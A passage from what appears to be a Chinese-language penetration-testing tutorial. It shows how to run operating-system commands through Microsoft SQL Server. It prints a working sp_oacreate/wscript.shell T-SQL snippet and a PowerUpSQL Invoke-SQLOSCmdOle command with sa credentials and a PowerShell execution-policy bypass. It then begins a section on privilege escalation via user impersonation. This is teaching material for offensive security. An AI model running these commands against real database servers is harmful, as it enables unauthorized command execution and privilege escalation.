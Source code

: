 ```php
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\\Windows\\System32\\cmd.exe /c whoami /all > C:\\Users\\Administrator\\Desktop\\1.txt';
```

![image.png](assets/1706232584-ff3f220fac2d7056c271777b3ab4015e.png)

### 使用 PowerUpSQL 执行

```php
powershell
powershell -ep bypass
Invoke-SQLOSCmdOle -Username sa -Password admin -Instance "192.168.3.130,1433" -Command "whoami /all" -Verbose
```

![image.png](assets/1706232584-a284e4e03c9233fd291bacbccad5cf40.png)

# 用户权限提升之模拟

MSSQL Impersonate 命令是一种根据其他用户名进行身份验证以执行系统查询的方法。为此，它通常与 CREATE USER 语句结合使用。当您使用模拟帐户时，SQL Server 会检查是否拥有查询引用的所有数据库的权限。

### 开启用户模拟

新建一个低权限用户  